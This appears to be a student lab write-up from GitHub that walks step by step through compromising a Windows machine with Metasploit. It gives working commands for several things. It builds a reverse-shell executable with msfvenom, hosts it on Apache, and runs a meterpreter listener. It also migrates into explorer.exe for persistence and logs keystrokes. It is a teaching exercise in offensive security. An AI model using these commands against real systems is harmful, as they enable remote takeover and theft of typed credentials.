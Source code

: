 # EX 6: Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2024-10-28 153752](https://github.com/user-attachments/assets/41b05fc8-51ff-4670-96ce-9a60bc222f56)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2024-10-28 153743](https://github.com/user-attachments/assets/fc0232ad-5e6f-4852-b560-07327d6a17d6)





copy the fun.exe into the apache /var/www/html folder
![Screenshot 2024-10-28 153921](https://github.com/user-attachments/assets/81948630-c86f-49e9-85ea-02aee35269c2)


Start apache server
sudo systemctl apache2 start

![Screenshot 2024-10-28 154004](https://github.com/user-attachments/assets/b2f4d68f-1df5-4bee-9701-99ae30cb26ee)



Check the status of apache2
![Screenshot 2024-10-28 154048](https://github.com/user-attachments/assets/24fac52d-95c5-4ea9-b488-edcd43e461be)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![6 6](https://github.com/user-attachments/assets/95ad72f2-2139-4873-b533-c0266f0760db)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![6 7](https://github.com/user-attachments/assets/c93dc795-02a3-4444-9097-24994fed7b73)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![6 8](https://github.com/user-attachments/assets/4f197f32-0d7f-4907-8028-9af4ea1f1d7d)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![6 9](https://github.com/user-attachments/assets/d3c21fcf-3638-4eb0-a998-ce4e2895b24f)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![6 1](https://github.com/user-attachments/assets/3630081d-690e-40c7-b50a-10d0345ea700)



keyscan_dump	Shows the keystrokes captured so far
![6 11](https://github.com/user-attachments/assets/3752a002-2147-48bc-80b1-9f2a5da85eff)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
